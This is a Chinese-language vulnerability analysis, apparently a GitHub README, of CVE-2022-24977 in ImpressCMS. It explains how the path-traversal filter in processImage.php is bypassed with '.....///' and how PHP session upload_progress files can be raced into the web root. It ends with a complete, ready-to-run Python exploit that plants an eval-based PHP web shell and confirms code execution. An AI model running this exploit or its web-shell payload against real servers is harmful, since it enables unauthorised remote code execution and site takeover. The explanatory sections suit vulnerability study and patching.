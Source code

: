 - [CVE-2022-24977 远程代码执行](#cve-2022-24977-远程代码执行)
	- [影响版本](#影响版本)
	- [环境搭建](#环境搭建)
	- [原理分析](#原理分析)
		- [任意文件复制](#任意文件复制)
		- [upload_progress](#upload_progress)
		- [利用思路](#利用思路)
		- [POC](#poc)
	- [参考](#参考)
# CVE-2022-24977 远程代码执行
## 影响版本
version < 1.4.2 pre-release
version < v2.0.0 alpha 11
## 环境搭建
`docker pull ghcr.io/impresscms/impresscms/nginx-php-mysql:v2.0.0_alpha10`
## 原理分析
漏洞思路在于利用类似于copy等函数能将一个文件复制到另一个路径时的利用思路.
### 任意文件复制
在processImage.php中有如下代码
```php
$action = $_REQUEST["action"]; $fileInfo = pathinfo($imageName); $extension = $fileInfo['extension']; switch ($action) {
	case "undo":  // This is actually revert now, as only revert is supported
		if (file_exists($origName)) {
			unlink($imageName); copy($origName, $imageName); }
		break; case "save":  // Copy working image back to original
		copy($imageName, $origName); break; case "resize": // additional required params: w, h
```
其中的copy函数会将`$origName`文件复制到`$imageName`路径下,而这两个参数都是从$REQUEST数组中取得,在之前对两个路径都有一次过滤用来防止路径穿越,过滤代码如下
```php
$imageName = str_replace(array("../", "./"), "", $_REQUEST['imageName']); 
$origName = str_replace(array("../", "./"), "", $_REQUEST['origName']);
```
但该过滤可以被绕过,当传入`.....///`时,过滤结果为`../`仍然可以造成目录穿越.
![](1.png)
替换过程如下
.....///
...~~../~~//
..~~./~~/
../
导致现在可以复制系统中任意一个已存在的文件到任意位置,且无后缀限制.一般情况可以考虑利用上传功能上传一个.png图片马,再利用该漏洞将图片马修改后缀为php来GetShell。
### upload_progress
更通用的方法是利用upload_progress和时间竞争来写入WebShell.
php-session选项:
1. session.save_path , session文件存放路径,常见默认路径:
```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```
2. session.upload_progress.cleanup = on,默认on,上传结束后立刻清空临时文件.
3. session.use_strict_mode =0 ,允许用户自定义Session ID,即生成的session 文件名字可以在cookie中指定.
4. session.auto_start：如果开启这个选项，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下,这个选项都是默认关闭的。


在php 5.4之后支持upload_progress功能,当 session.upload_progress.enabled 选项开启时(默认开启),PHP 能够在每一个文件上传时 监测上传进度。这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态。
同时如果在上传文件时提供了PHP_SESSION_UPLOAD_PROGRESS变量的话那么会自动初始化Session,生成Session文件,该Session文件包含了上传文件的进度信息,同时其中的`PHP_SESSION_UPLOAD_PROGRESS.name`内容可以由用户可控.(还有一种情况是对phpinfo()页面发送文件上传包也会生成session文件)。

### 利用思路
利用upload_progress特性,发送带PHP_SESSION_UPLOAD_PROGRESS变量的上传包,因为session.use_strict_mode默认开启,可以同时指定生成的Session文件名称(如sess_poctest),因为文件内容会被立刻清空,所以需要一边一直发包来生成含有webshell的文件(或者上传大文件)一边利用任意文件复制来将该session文件移动到web目录下并修改文件后缀为.php即可。

### POC
```python
import sys
import string
import requests
from multiprocessing.dummy import Pool as ThreadPool
if len(sys.argv)<3:
    print('python '+sys.argv[0]+' http://localhost 1')
    print('python '+sys.argv[0]+' http://localhost 2')
    exit()
HOST = sys.argv[1]
PATH = '/editors/CKeditor/ceditfinder/imageeditor/processImage.php'
sess_name = 'letspwnimpressCMS'
headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}
payload = '<?=eval($_GET[a]);exit;//'
def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'A' + payload + 'A'
    }
    while 1:
        fp = open('/etc/hosts', 'rb')
        r = requests.post(HOST+PATH, files={'f': fp}, data=data, headers=headers)
        fp.close()
def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    while 1:
        url = HOST+PATH+'?origName=.....///.....///.....///.....///uploads/aa.php&imageName=/var/lib/php/sessions/sess_letspwnimpressCMS&action=save'
        r = requests.get(url, headers=headers)
        c = r.content
        url2 = requests.get(HOST+'/uploads/aa.php?a=echo%20%2799999999999999999999999999999%27;copy(%27aa.php%27,%27bb.php%27);')
        if('99999999999999999999999999999' in url2.text):
            print('[+] done!')
            print('[!] Check '+HOST+'/uploads/bb.php?a=phpinfo();')
            exit()

if sys.argv[2] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```
## 参考
https://r0.haxors.org/posts?id=8  
https://xz.aliyun.com/t/9545#toc-4  
https://blog.orange.tw/2018/10/  